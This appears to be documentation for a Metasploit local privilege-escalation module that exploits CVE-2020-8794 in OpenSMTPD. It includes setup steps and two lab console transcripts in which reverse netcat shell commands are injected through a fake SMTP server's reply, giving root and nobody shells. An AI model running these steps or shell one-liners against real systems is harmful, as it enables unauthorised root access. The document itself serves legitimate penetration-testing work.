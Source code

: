 ## Vulnerable Application

### Description

This module exploits an out-of-bounds read of an attacker-controlled string in
OpenSMTPD's MTA implementation to execute a command as the root or nobody user,
depending on the kind of grammar OpenSMTPD uses.

### Setup

1. Download
   [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system

### Targets

```
Id  Name
--  ----
0   OpenSMTPD < 6.6.4 (automatic grammar selection)
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**SESSION**

Set this to a valid session ID on an OpenBSD target.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf5 > use exploit/unix/local/opensmtpd_oob_read_lpe
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > show missing

Module options (exploit/unix/local/opensmtpd_oob_read_lpe):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > set session 1
session => 1
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > run

[+] mkfifo /tmp/gkhbba; nc 172.16.249.1 4444 0</tmp/gkhbba | /bin/sh >/tmp/gkhbba 2>&1; rm /tmp/gkhbba
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] OpenSMTPD 6.6.0 is using new grammar
[+] The target appears to be vulnerable. OpenSMTPD 6.6.0 appears vulnerable to CVE-2020-8794
[*] Started service listener on 0.0.0.0:25
[*] Executing local sendmail(8) command: /usr/sbin/sendmail 'brvaysxuzssmnjkysoh@[172.16.249.1]' < /dev/null && echo true
[*] Client 172.16.249.137:37747 connected
[*] Exploiting new OpenSMTPD grammar for a root shell
[*] Faking SMTP server and sending exploit
[*] Sending: 220
[*] Expecting: /EHLO /
[+] Received: EHLO
[*] Sending: 250
[*] Expecting: /MAIL FROM:<[^>]/
[+] Received: foo.localdomain
MAIL FROM:<w
[*] Sending: 553-
553

dispatcher: local_mail
type: mda
mda-user: root
mda-exec: mkfifo /tmp/rettgqm; nc 172.16.249.1 4444 0</tmp/rettgqm | /bin/sh >/tmp/rettgqm 2>&1; rm /tmp/rettgqm; exit 0

[*] Disconnecting client 172.16.249.137:37747
[*] Command shell session 3 opened (172.16.249.1:4444 -> 172.16.249.137:3005) at 2020-03-03 18:40:54 -0600
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.localdomain 6.6 GENERIC#353 amd64
^Z
Background session 3? [y/N]  y
```

### OpenSMTPD 6.0.4 on OpenBSD 6.3

```
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > set session 2
session => 2
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > run

[+] mkfifo /tmp/hkioy; nc 172.16.249.1 4444 0</tmp/hkioy | /bin/sh >/tmp/hkioy 2>&1; rm /tmp/hkioy
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] OpenSMTPD 6.0.4 is using old grammar
[+] The target appears to be vulnerable. OpenSMTPD 6.0.4 appears vulnerable to CVE-2020-8794
[*] Started service listener on 0.0.0.0:25
[*] Executing local sendmail(8) command: /usr/sbin/sendmail 'nozahdogyxewkv@[172.16.249.1]' < /dev/null && echo true
[*] Client 172.16.249.138:10203 connected
[*] Exploiting old OpenSMTPD grammar for a nobody shell
[*] Faking SMTP server and sending exploit
[*] Sending: 220
[*] Expecting: /EHLO /
[+] Received: EHLO
[*] Sending: 250
[*] Expecting: /MAIL FROM:<[^>]/
[+] Received: foo.localdomain
MAIL FROM:<w
[*] Sending: 553-
553

type: mda
mda-method: mda
mda-usertable: <getpwnam>
mda-user: nobody
mda-buffer: mkfifo /tmp/jszy; nc 172.16.249.1 4444 0</tmp/jszy | /bin/sh >/tmp/jszy 2>&1; rm /tmp/jszy; exit 0

[*] Disconnecting client 172.16.249.138:10203
[*] Command shell session 4 opened (172.16.249.1:4444 -> 172.16.249.138:40377) at 2020-03-03 18:41:06 -0600
[*] Server stopped.

id
uid=32767(nobody) gid=32767(nobody) groups=32767(nobody)
uname -a
OpenBSD foo.localdomain 6.3 GENERIC#100 amd64
```
